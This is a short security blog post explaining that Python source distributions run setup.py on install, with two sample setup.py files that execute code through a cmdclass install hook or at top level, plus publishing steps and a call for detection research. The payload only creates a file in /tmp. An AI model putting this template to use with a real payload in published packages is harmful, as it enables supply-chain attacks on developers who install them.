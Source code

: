 ```yaml
---
title: "Executing Code on Python Package Installs - Malicious Pypi"
date: 2022-09-08T08:39:26-07:00
draft: false
---
```


#Foreword

Multiple researchers in the community have given dependency confusion and other supply chain attacks a bad name recently. While there are very valid reasons to perform this attack, please do not pollute pypi or any other package manager with typosquatting, stolen code, or other non-targetted attacks in the name of security research. It's no different than spreading malware. The point has been made. Please be responsible.

#Executing code on package install

While most python packages are distributed as wheels, the ["binary" distribution format](https://packaging.python.org/en/latest/specifications/binary-distribution-format/), Pypi also enables developers to distribute their package as [source distributions](https://packaging.python.org/en/latest/specifications/source-distribution-format/), or sdist. The sdist allows developers to suply the source code as the distribution such that the code is compiled into a wheel by the distutils/setuptools module on the system that installs it by calling the setup.py script that is bundled into the sdist. This will also occur even if the module if the module is downloaded via `pip download`.

As the setup.py script is supplied by the developer, it is easy to hook parts of distutils and supply your own code instead. Most examples use the built-in `cmdclass` parameter on the setup function to hook a specific command given to `setup.py`. Here is an example:

```python
from setuptools import setup
from setuptools.command.install import install

def bad_stuff():
    import os
    os.system('touch /tmp/bad_stuff')

class HookedInstallClass(install):
    def run(self):
        install.run(self)
        bad_stuff()

setup(
    name='malicious',
    version='0.0.1',
    description='Execute Code On Install',
    author='Example Author',
    author_email='fake@email.com',
    long_description='',
    long_description_content_type='text/markdown',
    url='https://github.com/pypa/sampleproject',
    packages=[],
    license='GPLv3',
    classifiers=[
        'Environment :: Console',
        'License :: OSI Approved :: GNU General Public License v3 (GPLv3)',
        'Operating System :: MacOS :: MacOS X',
        'Operating System :: POSIX',
    ],
    install_requires=[],
    tests_require=[],
    cmdclass={
        'install': HookedInstallClass,
    },
)
```

You can try this out by simply writing it to a setup.py file in a new directory and running `python setup.py install`

Actually bundling and publishing this code is as easy as `python setup.py sdist` and then uploading it via twine. [See the docs here.](https://docs.python.org/3/distutils/setupscript.html) 

#Without hooking

It's also worth noting that although most examples are hooking other functions using cmdclass in the end python is just running the script you supply and you can get as creative with it as you want. You may still want to keep the setup call however if you would like your module to build and install correctly. The following example will execute code every time `setup.py` is executed, including when you use to generate the sdist.

```python
from setuptools import setup

def bad_stuff():
    import os
    os.system('touch /tmp/bad_stuff')

setup(
    name='malicious',
    version='0.0.1',
    description='Execute Code On Install',
    author='Example Author',
    author_email='fake@email.com',
    long_description='',
    long_description_content_type='text/markdown',
    url='https://github.com/pypa/sampleproject',
    packages=[],
    license='GPLv3',
    classifiers=[
        'Environment :: Console',
        'License :: OSI Approved :: GNU General Public License v3 (GPLv3)',
        'Operating System :: MacOS :: MacOS X',
        'Operating System :: POSIX',
    ],
    install_requires=[],
    tests_require=[],
)

bad_stuff()
```

#Why is this allowed?

> These are useful for end users wanting to develop your sources, and for end user systems where some local compilation step is required (such as a C extension).

There are many use cases where you might want to compile your code differently on a different machine, check attributes of the system, compile other languages, etc.

#Other thoughts

Attacks on package managers are increasingly being considered as low-effort high-reward opportunities for attackers in much the same way that Android apps and Chrome extensions have historically been abused to distribute malware. This is already becoming a popular attack, and package managers are a particularly soft target due to lack of their own anti-malware teams and permission models.

While it is difficult to prevent these attacks from occurring, it should be easy to detect this technique due to the requirements of a package being distributed as a `.tar.gz file` and the setup.py entry-point. I hope to see more research in this space.

Thanks to [mschwager](https://github.com/mschwager) for his contributions as well, 0wned is a great example.

#Links

https://thehackernews.com/2022/09/warning-pypi-feature-executes-code.html

https://github.com/mschwager/0wned
